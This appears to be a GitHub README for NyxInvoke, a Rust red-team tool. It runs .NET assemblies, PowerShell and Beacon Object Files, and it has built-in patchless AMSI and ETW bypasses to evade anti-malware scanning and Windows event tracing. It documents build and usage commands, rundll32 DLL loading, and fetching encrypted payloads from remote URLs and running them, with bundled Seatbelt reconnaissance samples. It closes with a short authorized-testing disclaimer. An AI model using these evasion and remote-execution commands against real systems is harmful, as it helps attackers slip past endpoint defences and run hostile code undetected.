 # NyxInvoke

NyxInvoke is a versatile Rust-based tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities. It can be compiled as either a standalone executable or a DLL.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data
- Dual-build support: can be compiled as an executable or a DLL

## Building

NyxInvoke can be built as either an executable or a DLL. Use the following commands:

### Executable

```
cargo build --release --features exe
```

### DLL

```
cargo build --release --features dll
```

To include compiled-in CLR or BOF data, add the respective features:

```
cargo build --release --features "exe,compiled_clr,compiled_bof"
```
or
```
cargo build --release --features "dll,compiled_clr,compiled_bof"
```

## Usage

### Executable Mode

The executable supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

#### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### DLL Mode

When compiled as a DLL, NyxInvoke can be executed using rundll32. The syntax is:

```
rundll32.exe NyxInvoke.dll,NyxInvoke <mode> [OPTIONS]
```

### Mode-Specific Options

1. CLR Mode:
```text
Execute a .NET assembly

Usage: NyxInvoke.exe clr [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke clr [OPTIONS])

Options:
      --args <ARGS>                          Arguments for the executable
      --base <BASE_URL_OR_PATH>              Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>            Key filename or URL
      --iv <IV_FILENAME_OR_URL>              IV filename or URL
      --assembly <ASSEMBLY_FILENAME_OR_URL>  Assembly filename or URL
  -h, --help                                 Print help
```

2. PowerShell Mode:
```text
Execute a PowerShell command or script

Usage: NyxInvoke.exe ps [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke ps [OPTIONS])

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to a PowerShell script to execute
  -h, --help               Print help
```

3. BOF Mode:
```text
Execute a Beacon Object File (BOF)

Usage: NyxInvoke.exe bof [OPTIONS] (or rundll32.exe NyxInvoke.dll,NyxInvoke bof [OPTIONS])

Options:
      --args <ARGS>...             Arguments for the BOF
      --base <BASE_URL_OR_PATH>    Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>  Key filename or URL
      --iv <IV_FILENAME_OR_URL>    IV filename or URL
      --bof <BOF_FILENAME_OR_URL>  BOF filename or URL
  -h, --help                       Print help
```

## Examples

### Executable Mode

1. CLR Mode (Remote Execution):
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Script Execution):
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

3. BOF Mode (Local Execution):
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

### DLL Mode

1. CLR Mode (Remote Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. PowerShell Mode (Direct Command Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke ps --command "Get-Process | Select-Object Name, ID"
   ```

3. BOF Mode (Compiled Execution):
   ```
   rundll32.exe NyxInvoke.dll,NyxInvoke bof --args "str=argument1" "int=42"
   ```


## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that List user permissions for the specified file, wildcards supported.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\Windows\system32\cmd.exe"
     ```

## Screenshot

- Remote CLR Executaion 

![Screenshot 2024-09-17 164409](https://github.com/user-attachments/assets/ba9b9200-226b-4179-a442-558be35b1dd9)

- Compiled CLR Executaion 

![Screenshot 2024-09-17 164446](https://github.com/user-attachments/assets/956d0a70-42cf-443c-8302-9cae967d7624)

- Local BOF Executaion 

![Screenshot 2024-09-17 174657](https://github.com/user-attachments/assets/5cf116d7-ff32-4f1a-be42-00ca4e4755ee)



- Compiled BOF Executaion 

![Screenshot 2024-09-17 174102](https://github.com/user-attachments/assets/33c51e4e-9ce9-4c5b-9883-743add95f925)


- Powershell Command Executaion 

![Screenshot 2024-09-17 171636](https://github.com/user-attachments/assets/296bedfd-4bb9-4905-8391-c456fc591fe3)

- Powershell Script Executaion 

![Screenshot 2024-09-17 172028](https://github.com/user-attachments/assets/d055cb24-c8f0-4df7-b358-12a061f33c50)




## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

## Credits

- @yamakadi for the [clroxide](https://github.com/yamakadi/clroxide) project
- @hakaioffsec for the [coffee](https://github.com/hakaioffsec/coffee) project